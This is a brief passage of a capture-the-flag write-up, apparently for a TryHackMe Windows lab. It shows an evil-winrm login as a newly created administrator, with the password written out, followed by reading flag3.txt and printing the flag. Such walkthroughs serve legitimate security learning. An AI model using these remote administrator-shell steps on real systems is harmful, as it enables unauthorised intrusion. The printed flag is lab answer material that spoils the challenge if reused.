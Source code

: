 
#Winrm_Shell 
Connect to the machine with new administrator user.

```
evil-winrm -i windcorp.thm0 -u iobreaker -p P+ssword123
```

![[Admin shell and Third Flag-20250502112125174.webp]]

- Go to `C:\Users\Administrator\Desktop`.
- There's a flag3.txt file.
```
cat flag3.txt
```


> [!Success] Flag 3
> THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}

